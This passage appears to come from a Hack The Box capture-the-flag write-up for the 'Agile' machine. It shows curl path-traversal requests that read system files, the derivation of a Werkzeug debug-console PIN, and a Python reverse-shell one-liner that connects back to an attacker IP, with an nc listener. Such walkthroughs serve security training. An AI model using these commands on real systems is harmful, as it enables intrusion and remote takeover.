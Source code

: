 `get_machine_id()` return is a concatenation of:
- `/etc/machine-id` value
- The third element of the `/proc/self/cgroup` value, separated by a slash.

```console
root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../etc/machine-id'
ed5b159560f54721827644bc9b220d00

root@kali:~/htb/Machines/Agile# curl -s -H "$COOKIE" 'http://superpass.htb/download?fn=../proc/self/cgroup'
0::/system.slice/superpass.service
```

`private_bits` second element is `"ed5b159560f54721827644bc9b220d00superpass.service"`.

### Generate PIN

<details><summary>generate-pincode.py</summary></details>

```console
root@kali:~/htb/Machines/Agile# python3 generate-pincode.py
209-876-435
```

Implementing generate-pincode.py and execute it, then I got `209-876-435`.
So enter this PIN code to Debug Console, allowing to execute arbitrary code.

![superpass.htb-get-debug-console.png](superpass.htb-get-debug-console.png)

Refer to `Python #1` payload in [Reverse Shell Generator](https://www.revshells.com/), creating a Python Reverse Shell:

```python
import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.16.11",8888));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Listening shell:

```console
root@kali:~/htb/Machines/Agile# nc -lnvp 8888
listening on [any] 8888 ...
```

Execute payload:

![superpass.htb-execute-payload.png](superpass.htb-execute-payload.png)
